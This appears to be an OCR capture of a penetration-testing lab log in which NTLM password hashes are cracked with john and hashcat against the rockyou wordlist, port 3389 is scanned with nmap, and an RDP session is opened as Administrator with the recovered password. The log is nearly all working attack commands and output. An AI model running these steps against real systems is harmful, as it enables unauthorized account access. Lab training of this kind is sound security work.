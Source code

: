 ```
password1        (bob)
password         (Administrator)
```

```
root@attackdefense:~/Desktop# gzip -d /usr/share/wordlists/rockyou.txt.gz 
root@attackdefense:~/Desktop# john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
No password hashes left to crack (see FAQ)
```

```
root@attackdefense:~/Desktop# hashcat --help
```

```
root@attackdefense:~/Desktop# hashcat -a3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt

5835048ce94ad0564e29a924a03510ef:password1       
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: hashes.txt
Time.Started.....: Thu Jul 13 07:19:38 2023 (0 secs)
Time.Estimated...: Thu Jul 13 07:19:38 2023 (0 secs)
Guess.Mask.......: password1 [9]
Guess.Queue......: 28/14336793 (0.00%)
Speed.#1.........:     1385 H/s (0.05ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 2/2 (100.00%) Digests
Progress.........: 1/1 (100.00%)
Rejected.........: 0/1 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: password1 -> password1

Started: Thu Jul 13 07:18:50 2023
Stopped: Thu Jul 13 07:19:39 2023
```

```
root@attackdefense:~/Desktop# nmap -p 3389 10.0.18.253
Starting Nmap 7.91 ( https://nmap.org ) at 2023-07-13 07:24 IST
Nmap scan report for 10.0.18.253
Host is up (0.0027s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```

```
root@attackdefense:~/Desktop# xfreerdp /u:Administrator /p:password /v:10.0.18.253
```